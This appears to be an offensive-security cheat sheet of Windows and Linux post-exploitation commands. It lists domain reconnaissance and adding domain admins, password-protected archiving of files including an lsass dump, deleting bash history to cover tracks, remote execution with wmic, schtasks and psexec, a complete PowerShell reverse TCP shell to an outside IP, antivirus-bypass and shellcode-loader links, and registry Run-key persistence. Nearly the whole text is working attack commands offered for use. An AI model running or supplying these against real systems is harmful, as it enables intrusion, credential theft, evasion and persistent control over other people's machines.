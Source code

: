 # scan 



# Domain control
net user 
net user /domain 
net group /domain 
net view /domain 
net group "domain admins" /domain 
net localgroup administrators /domain 
net user username password /add /domain 
net time /domain 
net view /domain 
net localgroup administrators workgroup\test123 /add 
net group "domain controllers" /domain 

dsquery computer 
dsquery contact 
dsquery group 
dsquery user 
dsquery subnet 
dsquery server 

===============information package
7z.exe -r -v6m -padmin a c:\test.7z C:\AppServ\www\import*.* 
7z.exe x -padmin test.7z.001 -oc:\xl

Rar.exe a -r -v6m -padmin -m3 -x*.txt -ta c:\test.rar C:\AppServ\www\import*.* 
Rar.exe x -padmin c:\test.part01.rar c:\xl 

makecab /d compressiontype=lzx C:\Users\lsass.txt C:\Users\lsass.cab >> C:\Users\info.txt
expand.exe lsass.cab -f:* .

================log clear
wc -l ~/.bash_history
sed -i '73,$d' ~/.bash_history
tail -10f ~/.bash_history

==================remote execute
wmic /node:192.168.1.1 /user:administrator /password:"passwd" /namespace:\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
wmic /node:192.168.1.1 /user:administrator /password:"passwd" os get Caption,OSArchitecture,Version
wmic /node:192.168.1.1 /user:administrator /password:"passwd" product list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" startup list brief |more
wmic /node:192.168.1.1 /user:administrator /password:"passwd" process where name="test.exe" call terminate

schtasks /create /s 172.10.1.1 /u administrator /p "passwd" /ru SYSTEM /tn test /sc DAILY /tr "C:\Users\hacker.exe -a -b c" /F & schtasks /run /s 172.10.1.1 /u administrator /p "passwd" /tn test /i & schtasks /delete /s 172.10.1.1 /u administrator /p "passwd" /tn test /f
python psexec.py test:passwdtest@10.10.1.1 cmd
python wmiexec.py test:passwdtest@10.10.1.1
Psexec.exe \\10.10.1.1 -u test -p passwdtest cmd 

================powershell
change file time
powershell.exe -command "Get-ChildItem -Path C:\ -Recurse –Include .txt,.doc,.xls,.pdf,.ppt,.docx,.xlsx,.pptf,.csv,.lnk | Where-Object { $.LastWriteTime -ge '02/01/2019 00:00:00' -AND $.LastWriteTime -le '10/27/2022 00:00:00'} | Copy-Item -Force -Destination C:\Users"

write file
powershell.exe -command "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("......")) | Set-Content testfoo.txt"

----------reverse tcp shell
nc -lvp 6666

powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.10.139',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
----------

================BypassAV
https://github.com/TideSec/BypassAntiVirus
https://github.com/clinicallyinane/shellcode_launcher/
https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html




================Persistence
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /f /v test /t REG_SZ /d "rundll32.exe "C:\Users\test\test.dll" Test"
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "test" /f
